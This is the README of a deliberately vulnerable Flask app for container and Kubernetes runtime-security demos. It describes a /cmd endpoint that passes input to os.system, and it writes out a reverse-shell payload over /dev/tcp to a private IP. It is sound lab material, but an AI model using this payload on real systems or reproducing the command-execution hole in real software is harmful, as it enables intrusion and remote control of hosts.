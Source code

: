 # 🧪 Flask RCE Demo App

This repository contains an **intentionally vulnerable** Flask application designed for demonstrating **Kubernetes runtime security controls** and post-exploitation techniques in containerized environments.

It includes a dangerous `/cmd?input=` endpoint that executes arbitrary shell commands — a classic remote code execution (RCE) anti-pattern — to simulate real-world insecure container behavior.

---

## ⚠️ Disclaimer

> **DO NOT deploy this in production.**  
> This application is intentionally insecure and is meant **only for controlled lab environments, demos, or security testing.**  
> You are solely responsible for where and how you run it.

---

## 🚀 Features

- Flask app with a remote shell execution bug:
  - `/cmd?input=<command>` → runs `os.system(<command>)`
- Configurable to run as **root** or **non-root** via Docker build args
- Useful for testing:
  - Admission control
  - Runtime behavior restrictions
  - Secrets exfiltration
  - Reverse shell payloads
  - `/tmp` file staging & execution

---

## 🛠️ Build Instructions

Clone the repo and build the image locally:

### 🔧 Root Version (UID 0)

```bash
docker build -t youruser/flask-vuln-demo:root .
```

### 🔐 Non-Root Version (UID 1000)

```bash
docker build -t youruser/flask-vuln-demo:nonroot --build-arg RUN_AS_NON_ROOT=true .
```

---

## 🧪 Local Test

Run the container:

```bash
docker run -p 5000:5000 youruser/flask-vuln-demo:root
```

Then hit the command endpoint:

```bash
curl "http://localhost:5000/cmd?input=ls"
```

---

## 🐳 Docker Hub

If pushed to Docker Hub, use these images directly in Kubernetes:

```yaml
image: youruser/flask-vuln-demo:root
# or
image: youruser/flask-vuln-demo:nonroot
```

---

## 📦 Container Security Use Cases

This app can help model and simulate:

- Remote command execution (RCE) via insecure web inputs
- Reverse shell behavior over `/dev/tcp`
- Use of package managers or interpreters post-exploit
- Dropping and executing payloads via `/tmp`
- Secrets embedded in the container image
- MITRE ATT&CK techniques such as:
  - T1059.004 – Bash execution
  - T1071.001 – curl/wget for command and control
  - T1543.003 – Creating a system process (e.g., SSH daemon)

---

## 🧬 Runtime Behavior Example

```bash
curl "http://flask-app:5000/cmd?input=echo bash -i >& /dev/tcp/192.168.1.100/4444 0>&1 > /tmp/x.sh && bash /tmp/x.sh"
```

This simulates an attacker injecting a reverse shell payload after exploiting the `/cmd` endpoint.

---

## 🧹 Cleanup

To remove the running container:

```bash
docker ps
docker stop <container-id>
```

---

## 🛡️ Tags

`flask` • `rce` • `kubernetes` • `runtime-security` • `demo-app` • `intentionally-vulnerable`
